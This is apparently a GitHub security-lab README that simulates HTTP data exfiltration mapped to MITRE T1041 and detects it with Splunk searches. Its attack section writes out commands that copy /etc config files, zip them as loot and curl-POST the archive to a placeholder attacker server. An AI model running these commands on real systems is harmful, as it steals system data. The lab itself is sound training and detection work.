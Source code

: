 #  Data Exfiltration via HTTP (MITRE ATT&CK T1041)

## 📌 Objective
Simulate a data exfiltration technique using HTTP protocol to understand how attackers transfer sensitive data from compromised systems to external destinations. Detect and analyze this activity using Splunk.

---

## 💡 MITRE Technique: T1041 - Exfiltration Over Command and Control Channel

Attackers often exfiltrate data using existing command and control (C2) channels, including HTTP or HTTPS. This technique helps avoid detection by blending in with normal web traffic.

---

## 🛠️ Lab Setup

| Component         | Details                              |
|------------------|--------------------------------------|
| Attacker Machine | Kali Linux (HTTP Server on Port 8000)|
| Victim Machine   | Ubuntu (Target for exfiltration)     |
| Monitoring Tool  | Splunk (Log Source: Syslog)          |

---

## ⚙️ Attack Simulation

1. **Target Data Collection**  
   - Collected all readable `.conf` files from `/etc`:
     ```
     find /etc -type f -name "*.conf" -readable -exec cp {} /tmp/exfil/ \;
     ```

2. **Compression (Data Staging)**  
   - Archive the data:
     ```
     zip -r data_loot.zip /tmp/exfil
     ```

3. **Exfiltration using `curl`**
   - Send the zip file to the attacker's HTTP server:
     ```
     curl -X POST -F "file=@data_loot.zip" http://<attacker-ip>:8000/upload
     ```

---

## 🔍 Detection in Splunk

### 1. Detect `curl` activity from logs:
index=* curl



### 2. Detect any external IP access:
index=* source="/var/log/syslog" curl OR "<attacker-ip>"


### 3. Look for `zip` and data staging:
index=* "zip -r" OR "/tmp/exfil"


---

## ✅ Key Takeaways

- Data exfiltration can be hidden in plain sight using common tools like `curl`.
- Syslog monitoring and keyword-based detection can help surface suspicious behaviors.
- MITRE mappings like T1041 help contextualize threats in a real-world framework.
